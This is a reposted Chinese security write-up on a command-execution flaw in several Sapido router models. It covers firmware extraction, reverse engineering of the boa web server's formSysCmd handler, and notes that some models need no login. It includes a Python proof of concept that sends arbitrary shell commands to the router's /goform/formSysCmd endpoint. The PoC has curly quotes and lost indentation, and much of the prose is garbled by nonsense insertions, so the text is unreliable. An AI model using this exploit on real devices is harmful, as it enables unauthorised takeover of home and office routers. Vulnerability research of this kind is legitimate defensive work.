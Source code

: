 # Sapido多款路由器命令执行漏洞&突破

> 原文：[https://www.zhihuifly.com/t/topic/3400](https://www.zhihuifly.com/t/topic/3400)

# Sapido多款路由器命令执行漏洞&突破

# 一、漏洞简介

## 二、漏洞影响

BR270n-v2.1.03

BRC76n-v2.1.03

GR297-v2.1.3

RB1732-v2.0.43

之前的版本存在命令执行漏洞

## 三、复现过程

### 0x01 固件环境模拟

![image](img/4d08f3f8844296b47a94b326667219d0.png)

### 0x02 binwalk解压固件

![image](img/cf2f09a9f7904b6f07dcfdecde3eb0be.png)

![image](img/db5972e90ba09dfd10b1e75be39b30e8.png)

### 0x03 查看web容器

![image](img/3c5264ae3120487aa7388b84e8f213f0.png)

对于嵌入式设备而言，很多服务都是移植开源的，`/etc/init.d`文件夹下是路由器启动时的加载项，在这些文件中可以看到很多的启动服务等，但是在这里我没有发现`web`容器的启动项，猜测可能厂商进行了二次开发

### 0x04 查找http服务模块

![image](img/e4ae4ea2829fe1017a4569d44fd083f5.png)

在这里可以看到很多关于`http`的，我们不去关注`web`网页出现的。因为我们想要知道这款路由器的`web`容器是其中，所以我们把重点放在前面的`elf`文件处，在这里我们看到一个`cm`的`elf`文件，如果知道开源的`web`服务器`boa`可能猜到一些，下面就是`boa`的架构

![image](img/bb8fb6f39147be7ce6d3701a1b62d099.png)

可以这里清晰的看到`web`层的英文如何状语从句：底层通过`boa`进行交互的。那么对于不知道的容器我们又该如何去分析呢？继续我们去分析剩下的`elf`程序，名字通过逐个状语从句：我们分析在`sysconf`程序中发现了`http`请求的处理方式，使用`ghidra`来分析`sysconf`

![image](img/3f95540092a24766f5b226fa0f646d21.png)

通过全文搜索定位`http`到关键函数，在这里我们发现了一个关键的函数`apmib_get`通过猜测也能大概猜到这是一个关于获取的函数，通过`google`可以搜索到这个函数，会发现这个函数是关于`web`开源服务器的`boa`用到的函数，到那么这里我们就已经确认这款路由器的`web`容器的英文`boa`了。既然已经知道了`boa`，肯定那么这个知道有框架一个关键的文件`syscmd.htm`文件，可以执行系统命令，由于但是这款路由器的英文`asp`写的所以我们只进行检索`syscmd`

![image](img/4c1f3b4e8603ac25c994ea7940911a6f.png)

这里可以发现两个文件，一个`elf`文件，一个`asp`文件，打开`asp`文件

![image](img/d356097764142a977c0c60b6b551610a.png)

在这里可以抛光页面可以执行系统命令

### 0x05 通过url访问指定页面

![image](img/bae12372b8490abbd3afe039e3764a64.png)

发现可以执行系统命令，那么这里又是如何处理的呢？

通过上面的`asp`文件可以知道，对于输入的命令处理应该和`formSysCmd`有关联，这里我们进行`grep`搜索

![image](img/b7fe53d1cb34cb2aca9e4636211c39e9.png)

可以看到一个`webs`的`elf`文件，那么可以猜测这里可能就是`syscmd`执行的临时文件了

### 0x06 分析webs文件

![image](img/7c8612f6069972dfd8f418fd6e59d028.png)

![image](img/23d97c58cd9d29108f9bbfabc482f62a.png)

上面就是整个命令执行的逐步实现方式了，第一个图片可以看到使用`system`函数执行输入的系统命令，第二个图片可以裁剪将执行的结果通过`cat`输入到`/web/obama.dat`文件中，最后将`obama.dat`中的内容输入到`web`界面的文本框里。

### 0x07 poc

```
# Exploit title: "SAPIDO RB-1732 command line execution"
# Date: 2019-6-24
# Exploit Author: k1nm3n.aotoi
# Vendor Homepage: http://www.sapido.com.tw/
# Software Link: http://www.sapido.com.tw/CH/data/Download/firmware/rb1732/tc/RB-1732_TC_v2.0.43.bin
# Version: RB-1732 V2.0.43 
# Tested on: linux

import requests

import sys

def test_httpcommand(ip, command):

my_data = {‘sysCmd’: command, ‘apply’: ‘Apply’, ‘submit-url’:’/syscmd.asp’, ‘msg’:’’}

r = requests.post(‘http://%s/goform/formSysCmd’ % ip, data = my_data)

content = r.text

content = content[

content.find(’<textarea rows=“15” name=“msg” cols=“80” wrap=“virtual”>’)+56:

content.rfind(’</textarea>’)]

return content

print test_httpcommand(sys.argv[1], " ".join(sys.argv[2:])) 
```

### 0x08 运行截图

![image](img/8d2a79eeeab72698343d8f6a3b9eab33.png)

### 0x09 BR270n-v2.1.03命令执行突破

这个原理和RB1732差不多，只不过访问的页面变成了`syscmd.htm`了

![image](img/cd26c4c05fe7cb3e12db463142ab07bb.png)

### 0x010 BRC76n-v2.1.03命令执行漏洞

![image](img/a02e706e869f111c5d63049bf6910bd9.png)

### 0x011 GR297-v2.1.3命令执行漏洞

![image](img/def3a4fc7e376858378cd14c789bfc71.png)

### 0x012 总结

BR270n，RB1732命令执行有个重置就是登陆路由器，可以进行信息的同步获取用户名和密码，而且又有很多路由器使用的还是其他用户名和密码，GR297，BRC76n则不需要进行登陆

## 参考链接

> [http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/](http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/)